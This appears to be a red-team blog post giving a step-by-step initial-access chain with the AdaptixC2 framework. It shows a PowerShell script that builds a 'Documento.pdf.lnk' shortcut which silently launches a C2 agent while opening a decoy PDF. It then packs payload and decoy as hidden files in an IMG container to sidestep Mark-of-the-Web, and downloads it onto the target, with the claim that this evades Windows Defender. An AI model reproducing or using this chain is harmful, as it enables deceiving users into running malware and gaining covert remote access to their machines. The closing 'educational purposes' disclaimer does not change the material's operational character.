

# 

# Execution method Agent C2

## Introduction

In this post I am going to describe a way how an attacker or members of a Red Team can elaborate a malicious file and be executed in the target machine in order to gain access without being detected by the antivirus.
For this post I have used the Command and Control AdaptixC2, I will not go into depth on how to install it because in the documentation itself is well detailed the process. Although if you encounter any problems when installing the GO version I recommend you to download the package directly from the official website here.
I leave the repository of AdaptixC2 [here](https://github.com/Adaptix-Framework/AdaptixC2) and its documentation [here](https://adaptix-framework.gitbook.io/adaptix-framework).

## Listener and Agent creation

Once we have executed the server and the client, the client interface will appear, the first thing we must do is to create a listener to which our generated agent will connect later.
For this Post I am going to use a listener of HTTP type, for it we must click in the left superior corner in the icon of the helmets.



Once the listeners tab is open, right click > Create and the following window will appear:


From here we can configure our listener, for this test I have only made changes in the Main settings tab, but you can also configure the HTTP headers, an error page and the Payload page.
We indicate a name and add the ip of the machine where the server is running and a port, at the end it should look something like this:


To finish this step we only need to generate the agent, to do so we right click on the listener just created.


The following window will appear:


For this test I have not made any changes, but as you can see we can modify the architecture, the type of format, the Sleep field, when we want the remote connection to end and the active time of the agent.
We click on Generate and save our agent.

## Shell Link

For the execution of our agent I am going to use a .lnk file generated with PowerShell which will execute our agent and a pdf that we want to show to the target user as a decoy.

This option is interesting because even if the user has enabled the option to view the extension in the browser, the .lnk extension will not be visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

If the pdf icon is not displayed it can be changed by clicking on properties and change icon.


## Container

Once we have the three files: Document.pdf(decoy), Agent.64.exe(payload) and Document.pdf.lnk(trigger) we pack them in a single zip file to avoid having to send multiple files to the target.

Mark of the web(MotW) is a zone identifier that is used to mark files downloaded from the Internet as potentially unsafe.  This can be seen in a file by viewing its properties in Explorer or using PowerShell.


Some archive formats support hidden files, and some do not propagate MotW.  [This repository](https://github.com/nmantani/archiver-MOTW-support-comparison) by [Nobutaka Mantani](https://x.com/nmantani) contains a comparison of MotW propagations.

To pack our files I am going to use the [PackMyPayload](https://github.com/mgeeky/PackMyPayload) tool.
First I add the files to a folder.

```bash
ls -l 
total 100
-rw-r--r-- 1 root  root  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

And I pack them in an IMG format file hiding agen.exe and Document.pdf using the `-H` parameter.

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Delivery and execution

Finally we transfer our generated file to the target machine by raising a python server:

```bash
python -m http.server 8000
```

and in the target machine from PowerShell we download it:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

We open package.img and open the file it contains, thus producing the connection of the agent with our Command and control and all this with Windows Defender activated.


I remind you that this post is for educational and ethical purposes and should not be used for illegal purposes.
